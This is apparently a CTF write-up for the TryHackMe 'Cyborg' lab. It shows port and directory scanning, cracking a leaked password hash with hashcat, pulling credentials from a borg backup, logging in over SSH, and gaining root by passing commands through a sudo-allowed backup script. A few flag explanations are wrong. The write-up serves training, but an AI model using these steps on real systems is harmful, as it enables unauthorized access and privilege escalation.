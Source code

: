 # TRYHACKME – Cyborg (CTF)

![Cyborg.png](img/Cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![nmap-scan1.png](img/nmap-scan1.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![gobuster-scan1.png](img/gobuster-scan1.png)

Directories found:

/admin

/etc

![etc-dir1.png](img/etc-dir1.png)

![etc-squid-dir1.png](img/etc-squid-dir1.png)

![md5-hash1.png](img/md5-hash1.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![hash-identifier1.png](img/hash-identifier1.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![hashcat1.png](img/hashcat1.png)

![admin-index-page-file1.png](img/admin-index-page-file1.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![list-zip-file1.png](img/list-zip-file1.png)

![unzip-tar-file1.png](img/unzip-tar-file1.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![cat-file1.png](img/cat-file1.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![ssh1.png](img/ssh1.png)

**`cat user.txt`**

![cat-file2.png](img/cat-file2.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![list-user-privileges1.png](img/list-user-privileges1.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![mv-dir-mp3backups1.png](img/mv-dir-mp3backups1.png)

**`cat backup.sh`**

![cat-file3.png](img/cat-file3.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![run-file-arguments1.png](img/run-file-arguments1.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![run-file-aguments2.png](img/run-file-aguments2.png)
